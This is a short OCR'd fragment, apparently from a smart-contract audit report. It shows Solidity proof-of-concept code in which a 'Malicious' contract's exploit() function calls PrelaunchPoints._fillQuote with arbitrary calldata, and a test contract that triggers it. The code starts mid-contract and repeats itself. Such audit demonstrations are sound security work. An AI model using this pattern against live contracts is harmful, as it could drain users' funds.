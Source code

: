```javascript
bytes memory swapCallData = abi.encodeWithSignature("someFunction()");

prelaunchPoints._fillQuote(IERC20(address(0)), 0, swapCallData);

}

}

  

function  exploit() external {

bytes memory swapCallData = abi.encodeWithSignature("someFunction()");

prelaunchPoints._fillQuote(IERC20(address(0)), 0, swapCallData);

}

}

```

  

**Contract Using PrelaunchPoints**

```javascript

// Contract using PrelaunchPoints

contract TestLowLevelCall {

PrelaunchPoints public prelaunchPoints;

Malicious public malicious;

  

constructor(address _prelaunchPoints, address _malicious) {

prelaunchPoints =  PrelaunchPoints(_prelaunchPoints);

malicious =  Malicious(_malicious);

}

  

function  testExploit() external {

// Trigger the exploit

malicious.exploit();

}

}

```
